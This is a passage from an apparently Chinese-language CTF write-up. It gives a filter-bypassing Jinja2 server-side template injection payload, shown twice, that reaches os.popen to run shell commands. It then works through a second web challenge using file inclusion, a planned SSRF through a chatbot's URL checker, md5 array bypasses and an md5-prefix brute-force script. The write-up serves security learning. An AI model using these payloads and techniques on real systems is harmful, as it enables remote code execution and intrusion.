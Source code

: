 直接一把梭出了payload:
`{%print cycler[\'next\'][(\'_\'*2)|attr("\\x5f\\x5fadd\\x5f\\x5f")(\'globals\')|attr("\\x5f\\x5fadd\\x5f\\x5f")(\'_\'*2)][(\'_\'*2)|attr("\\x5f\\x5fadd\\x5f\\x5f")(\'builtins\')|attr("\\x5f\\x5fadd\\x5f\\x5f")(\'_\'*2)][(\'_\'*2)|attr("\\x5f\\x5fadd\\x5f\\x5f")(\'import\')|attr("\\x5f\\x5fadd\\x5f\\x5f")(\'_\'*2)](\'so\'[::-1])[\'p\'\'open\'](\'ls\')[\'read\']()%}`

但是你需要注意，fenjing给出的payload是利用表单提交(我估计是爬虫)，所以对于文本输入有很多转义字符，如果你想直接扔进浏览器提交记得把转义字符删掉：
`{%print cycler['next'][('_'*2)|attr("\x5f\x5fadd\x5f\x5f")('globals')|attr("\x5f\x5fadd\x5f\x5f")('_'*2)][('_'*2)|attr("\x5f\x5fadd\x5f\x5f")('builtins')|attr("\x5f\x5fadd\x5f\x5f")('_'*2)][('_'*2)|attr("\x5f\x5fadd\x5f\x5f")('import')|attr("\x5f\x5fadd\x5f\x5f")('_'*2)]('so'[::-1])['p''open']('ls')['read']()%}`
成功执行`ls`命令。             

## i_am_eeeeeshili

进去看到登录页面，可以注册账号，也可以修改账号。我们先尝试用`admin`账号登录一下，随便输一个密码，抓包可以看到：
`GET /check.php?file=.%2Flogin&account=admin&password=123 HTTP/1.1`
看到有个`file`的参数，猜测这里有文件包含漏洞，先随便写个`?file=./a`看看，存在回显`你是坏人`，页面有如下内容：
```php
$files = array('./login', './modify', './register', './flag');
if (isset($_POST['file']) && in_array($_POST['file'], $files)){...}
```
前面三个显然就是登录，注册与修改，我们用`?file=./flag`试试看，抓包看到如下信息：
```php
if (str_replace("\", "/", __FILE__)== $_SERVER["SCRIPT_FILENAME"]) {
    header("HTTP/1.0 403 Forbidden");
    die("前面的区域以后再探索吧！");
}
.........
$client_ip = $_SERVER["REMOTE_ADDR"];
$server_ip = $_SERVER["SERVER_ADDR"];
if ($client_ip === $server_ip) {
    if(md5($_GET["a"]) === md5($_GET["b"])){
        if ($_GET["c"] != $_GET["d"] && md5($_GET["c"]) == md5($_GET["d"])){
            if(substr(md5($_GET["e"]), 0, 5) === "9331c"){
                $file = fopen("./ffflllaaaggg.php", "w");
                fwrite($file, "<?php \n echo $flag".";");
                fclose($file);
            }
        }
    }
} else {
    $code = '';
    highlight_string($code);
    echo '<script>alert("错啦错啦错啦！");</script>';
    header('Location: login.html');
    die();
}
```
可以看到如果想成功`echo $flag`,第一步判断必须有$\$$client_ip ===$\$$server_ip，猜测存在ssrf漏洞(服务器端请求伪造)。之后就是一些绕md5方式，后面再看。我们先登录进去看看，像是一个聊天机器人界面，随便问问，输出：
`您好！输入check_[url]即可检验网站安全与否，例如check_https://baidu.com`
猜测可以由这个机器人向服务端发送请求绕过上面所说的第一步判断实现ssrf攻击。md5的比较均可以使用数组绕过，然后还要找到一串字符的md5数据的前五位为9331c，用md5截断脚本爆破：
```py
import hashlib

def find_md5(target,num1,num2):
    k=0
    while True:
        if hashlib.md5(str(k).encode('utf-8')).hexdigest()[num1:num2]==target:
            print(k,hashlib.md5(str(k).encode('utf-8')).hexdigest())
            break
        else:
            k+=1

```